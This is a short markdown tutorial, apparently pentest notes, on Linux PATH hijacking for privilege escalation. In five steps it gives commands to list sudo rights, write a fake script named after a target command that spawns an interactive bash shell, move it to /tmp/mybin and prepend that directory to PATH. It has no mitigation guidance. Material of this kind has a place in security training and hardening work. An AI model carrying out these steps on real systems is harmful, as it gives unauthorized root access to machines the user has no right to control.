 Path hijacking exploits the way the operating system searches for executable files in directories listed in the `$PATH` environment variable. If an attacker gains control over a directory listed in `$PATH`, they can place malicious scripts or binaries that are executed instead of the intended commands.

1. **Identify Privileged Commands**

Determine commands or scripts that can be executed with elevated privileges (e.g., `sudo`).

```bash
sudo -l
```

2. **Locate the Target Command**

Verify where the target executable resides and confirm that its directory is in the `$PATH`.

```bash
whereis <command>
echo $PATH
```

3. **Create a Malicious File**

Write a malicious script or binary with the same name as the target command.

```bash
#!/bin/bash
echo "Privilege Escalation Achieved"
/bin/bash -i # Spawns a shell
```

Save this file as the name of the target command (e.g., `ls`). Grant execution permissions:

```bash
chmod +x <command>
```

4. **Place the File in a Controlled Directory**

Move the malicious file to a directory under your control, preferably one at the start of `$PATH`.


```bash
mkdir /tmp/mybin
mv <command> /tmp/mybin/
```

5. **Modify the `$PATH` Variable**

Prepend the controlled directory to `$PATH`:

```bash
export PATH=/tmp/mybin:$PATH
```

Now, whenever the target command is executed, the malicious version in `/tmp/mybin` will run instead of the legitimate one.